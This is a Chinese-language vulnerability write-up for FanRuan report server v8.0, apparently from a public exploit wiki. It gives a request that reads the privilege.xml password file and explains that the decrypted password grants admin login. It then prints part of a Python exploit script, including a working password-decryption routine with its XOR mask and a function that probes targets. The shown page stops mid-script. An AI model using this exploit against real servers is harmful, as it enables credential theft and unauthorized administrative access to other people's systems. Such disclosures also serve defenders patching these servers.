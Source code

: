 访问POC为,读取密码文件 privilege.xml

```
/WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml
```

![](http://wikioss.peiqi.tech/vuln/fan-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

使用解密脚本解密文件

![](http://wikioss.peiqi.tech/vuln/fan-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

得到密码，即可登陆后台系统，账户为 admin

![](http://wikioss.peiqi.tech/vuln/fan-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

```python
import requests
import sys
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 帆软报表 v8.0                                              \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def decode_passwd(cipher):
    PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23]  # 掩码
    Password = ""
    cipher = cipher[3:]  # 截断三位后
    for i in range(int(len(cipher) / 4)):
        c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
        c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
        Password = Password + chr(c2)
    return Password

def POC_1(target_url):
    vuln_url_1 = target_url + '/WebReport/ReportServer'
    vuln_url_2 = target_url + '/ReportServer'
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response_1 = requests.get(url=vuln_url_1, timeout=5, verify=False, headers=headers)
        response_2 = requests.get(url=vuln_url_2, timeout=5, verify=False, headers=headers)
        if "部署页面" in response_1.text:
            print("\033[32m[o] 目标部署页面为: {} \033[0m".format(vuln_url_1))
            POC_2(vuln_url_1)
        elif "部署页面" in response_2.text:
            print("\033[32m[o] 目标部署页面为: {} \033[0m".format(vuln_url_2))
            POC_2(vuln_url_2)
        else:
            print("\033[31m[x] 目标漏洞无法利用 \033[0m")
            sys.exit(0)

```